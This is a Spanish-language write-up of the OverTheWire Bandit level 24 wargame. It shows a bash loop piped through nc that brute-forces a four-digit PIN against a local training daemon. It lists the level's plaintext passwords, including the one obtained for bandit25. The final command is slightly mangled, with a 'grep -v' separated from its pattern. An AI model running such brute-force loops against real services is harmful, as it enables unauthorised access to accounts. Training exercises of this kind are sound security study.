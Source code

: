 ## Objetivo
A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.  
You do not need to create new connections each time

## Datos de acceso al nivel
bandit24 VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar

## Solución

```
bandit24@bandit:~$ nc -v localhost 30002  
Connection to localhost (127.0.0.1) 30002 port [tcp/*] succeeded!  
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line,  
separated by a space.  
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar 123  
Wrong! Please enter the correct pincode. Try again.  
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar 987  
Wrong! Please enter the correct pincode. Try again.  
^C  
bandit24@bandit:~$ for i in {0000..0003}; do echo UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ $i ; done  
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 0000  
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 0001  
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 0002  
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 0003  
bandit24@bandit:~$ for i in {0000..9999}; do echo VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar $i; done | nc localhost 30002 | grep -v  
Wrong  
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single  
line, separated by a space.  
Correct!  
The password of user bandit25 is p7TaowMYrmu23Ol8hiZh9UvD0O9hpx8d  
Exiting.
```

## Notas adicionales

## Referencias
https://overthewire.org/wargames/bandit/bandit25.html
